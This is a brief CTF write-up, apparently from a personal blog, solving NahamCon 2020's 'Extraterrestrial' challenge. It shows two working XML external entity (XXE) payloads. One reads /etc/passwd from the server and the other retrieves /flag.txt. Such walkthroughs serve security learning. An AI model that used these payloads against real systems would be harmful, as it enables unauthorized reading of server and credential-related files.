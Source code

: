 
## Extraterrestrial
> Have you seen any aliens lately? Let us know!
>
> The flag is at the start of the solar system.

Web page looks like so:

&nbsp;
![]({{ site.baseurl }}/img/nahamConCTF2020/xxe_home.png){:height="60%" width="60%"}
&nbsp;

The name of the challenge seems to hint that [maybe we can get XXE](https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/) so I'll try a test payload:

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
{% endhighlight %}

Which works!

&nbsp;
![]({{ site.baseurl }}/img/nahamConCTF2020/xxe_pwd.png){:height="60%" width="60%"}
&nbsp;

So now we just need to figure out where that flag is... The hint says it's "at the start of the universe" so originally I was thinking it was under some time of big bang directory; but then I thought it was simpler than that:

The start of the solar system is the very first thing, before everything... Which sounds like `/`! I guessed `/flag.txt` and was right!

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
{% endhighlight %}

gives:

&nbsp;
![]({{ site.baseurl }}/img/nahamConCTF2020/xxe_flag.png){:height="60%" width="60%"}
&nbsp;
